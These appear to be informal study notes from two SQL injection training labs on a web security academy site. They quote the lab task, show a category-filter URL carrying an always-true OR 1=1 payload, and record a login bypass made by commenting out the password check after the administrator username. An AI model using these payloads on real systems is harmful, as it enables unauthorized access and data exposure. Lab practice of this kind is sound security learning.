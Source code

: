 This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

i grabbed the url which is <https://0af100d004b4ee8484cf8bf7001900b0.web-security-academy.net/filter?category=Gifts+OR+1=1-->

gave me 
![](attachments/FIRST%20ONE.png)

now modifying the url a bit 
adding ' after gifts on above url gives the results
<https://0af100d004b4ee8484cf8bf7001900b0.web-security-academy.net/filter?category=Gifts%20%27%20+or+1=1%20-->



# lab2
clicked on the login page 
<https://0a7c008c04611bca82e7c45f0036007d.web-security-academy.net/login>
and inputted admininstrator ' --
and random word for password
which solved the lab


